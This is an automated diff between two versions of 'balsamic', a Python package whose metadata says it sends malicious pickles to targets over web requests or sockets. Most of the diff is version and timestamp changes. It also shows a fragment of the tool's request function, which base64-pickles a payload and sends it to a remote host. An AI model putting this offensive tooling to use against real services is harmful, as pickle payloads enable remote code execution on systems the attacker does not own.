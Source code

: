 # Comparing `tmp/balsamic-0.1.96.tar.gz` & `tmp/balsamic-0.1.97.tar.gz`

## filetype from file(1)

```diff
@@ -1 +1 @@
-gzip compressed data, was "balsamic-0.1.96.tar", last modified: Sat May 18 03:05:06 2024, max compression
+gzip compressed data, was "balsamic-0.1.97.tar", last modified: Sat May 18 03:26:26 2024, max compression
```

## Comparing `balsamic-0.1.96.tar` & `balsamic-0.1.97.tar`

### file list

```diff
@@ -1,15 +1,15 @@
-drwxr-xr-x   0 witchdoc  (1000) witchdoc  (1001)        0 2024-05-18 03:05:06.691889 balsamic-0.1.96/
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     2237 2024-05-18 03:05:06.691889 balsamic-0.1.96/PKG-INFO
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     1702 2024-05-18 03:04:59.000000 balsamic-0.1.96/README.md
-drwxr-xr-x   0 witchdoc  (1000) witchdoc  (1001)        0 2024-05-18 03:05:06.691889 balsamic-0.1.96/balsamic/
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)        1 2024-05-17 19:32:39.000000 balsamic-0.1.96/balsamic/__innit__.py
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     2226 2024-05-18 02:50:42.000000 balsamic-0.1.96/balsamic/__main__.py
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     1759 2024-05-18 03:03:14.000000 balsamic-0.1.96/balsamic/balsamic.py
-drwxr-xr-x   0 witchdoc  (1000) witchdoc  (1001)        0 2024-05-18 03:05:06.691889 balsamic-0.1.96/balsamic.egg-info/
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     2237 2024-05-18 03:05:06.000000 balsamic-0.1.96/balsamic.egg-info/PKG-INFO
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)      241 2024-05-18 03:05:06.000000 balsamic-0.1.96/balsamic.egg-info/SOURCES.txt
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)        1 2024-05-18 03:05:06.000000 balsamic-0.1.96/balsamic.egg-info/dependency_links.txt
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)        9 2024-05-18 03:05:06.000000 balsamic-0.1.96/balsamic.egg-info/requires.txt
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)        9 2024-05-18 03:05:06.000000 balsamic-0.1.96/balsamic.egg-info/top_level.txt
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)       38 2024-05-18 03:05:06.691889 balsamic-0.1.96/setup.cfg
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     1144 2024-05-18 03:03:18.000000 balsamic-0.1.96/setup.py
+drwxr-xr-x   0 witchdoc  (1000) witchdoc  (1001)        0 2024-05-18 03:26:26.332955 balsamic-0.1.97/
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     2237 2024-05-18 03:26:26.332955 balsamic-0.1.97/PKG-INFO
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     1702 2024-05-18 03:04:59.000000 balsamic-0.1.97/README.md
+drwxr-xr-x   0 witchdoc  (1000) witchdoc  (1001)        0 2024-05-18 03:26:26.332955 balsamic-0.1.97/balsamic/
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)        1 2024-05-17 19:32:39.000000 balsamic-0.1.97/balsamic/__innit__.py
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     2226 2024-05-18 02:50:42.000000 balsamic-0.1.97/balsamic/__main__.py
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     1792 2024-05-18 03:25:49.000000 balsamic-0.1.97/balsamic/balsamic.py
+drwxr-xr-x   0 witchdoc  (1000) witchdoc  (1001)        0 2024-05-18 03:26:26.332955 balsamic-0.1.97/balsamic.egg-info/
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     2237 2024-05-18 03:26:26.000000 balsamic-0.1.97/balsamic.egg-info/PKG-INFO
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)      241 2024-05-18 03:26:26.000000 balsamic-0.1.97/balsamic.egg-info/SOURCES.txt
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)        1 2024-05-18 03:26:26.000000 balsamic-0.1.97/balsamic.egg-info/dependency_links.txt
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)        9 2024-05-18 03:26:26.000000 balsamic-0.1.97/balsamic.egg-info/requires.txt
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)        9 2024-05-18 03:26:26.000000 balsamic-0.1.97/balsamic.egg-info/top_level.txt
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)       38 2024-05-18 03:26:26.332955 balsamic-0.1.97/setup.cfg
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     1144 2024-05-18 03:26:10.000000 balsamic-0.1.97/setup.py
```

### Comparing `balsamic-0.1.96/PKG-INFO` & `balsamic-0.1.97/PKG-INFO`

 * *Files 0% similar despite different names*

```diff
@@ -1,10 +1,10 @@
 Metadata-Version: 2.1
 Name: balsamic
-Version: 0.1.96
+Version: 0.1.97
 Summary: Send malicious pickles via requests or sockets
 Author: Witchdoctor (malectrica)
 Keywords: python,hack,pickle,serialization,security,sockets,web
 Classifier: Development Status :: 5 - Production/Stable
 Classifier: Intended Audience :: Developers
 Classifier: Programming Language :: Python :: 3
 Classifier: Operating System :: Unix
```

### Comparing `balsamic-0.1.96/README.md` & `balsamic-0.1.97/README.md`

 * *Files identical despite different names*

### Comparing `balsamic-0.1.96/balsamic/__main__.py` & `balsamic-0.1.97/balsamic/__main__.py`

 * *Files identical despite different names*

### Comparing `balsamic-0.1.96/balsamic/balsamic.py` & `balsamic-0.1.97/balsamic/balsamic.py`

 * *Files 5% similar despite different names*

```diff
@@ -24,14 +24,15 @@
 
 def updatecmd(newcmd):
 	utility.command=newcmd
 
 def webreq(schema,method,rhost,rport,payload,param=None,cook=None):
 	methods=["get","post","put","patch"]
 	payload=utility.b64pickle(payload)
+	payload=payload.encode("utf-8")
 	if method in methods:
 		r=getattr(requests,method)
 	if param:
 		if method == "get":
 			r(f"{schema}://{rhost}:{rport}/?{param}={payload}")
 		else:
 			data={param:payload}
```

### Comparing `balsamic-0.1.96/balsamic.egg-info/PKG-INFO` & `balsamic-0.1.97/balsamic.egg-info/PKG-INFO`

 * *Files 0% similar despite different names*

```diff
@@ -1,10 +1,10 @@
 Metadata-Version: 2.1
 Name: balsamic
-Version: 0.1.96
+Version: 0.1.97
 Summary: Send malicious pickles via requests or sockets
 Author: Witchdoctor (malectrica)
 Keywords: python,hack,pickle,serialization,security,sockets,web
 Classifier: Development Status :: 5 - Production/Stable
 Classifier: Intended Audience :: Developers
 Classifier: Programming Language :: Python :: 3
 Classifier: Operating System :: Unix
```

### Comparing `balsamic-0.1.96/setup.py` & `balsamic-0.1.97/setup.py`

 * *Files 0% similar despite different names*

```diff
@@ -3,15 +3,15 @@
 import os
 
 here = os.path.abspath(os.path.dirname(__file__))
 
 with codecs.open(os.path.join(here, "README.md"), encoding="utf-8") as fh:
     long_description = "\n" + fh.read()
 
-VERSION = '0.1.96'
+VERSION = '0.1.97'
 DESCRIPTION = 'Send malicious pickles via requests or sockets'
 LONG_DESCRIPTION = 'A package that allows the user to easily send out malicious pickles, via web requests, or a malicious server or client(currently ipv4 only)'
 
 # Setting up
 setup(
     name="balsamic",
     version=VERSION,
```

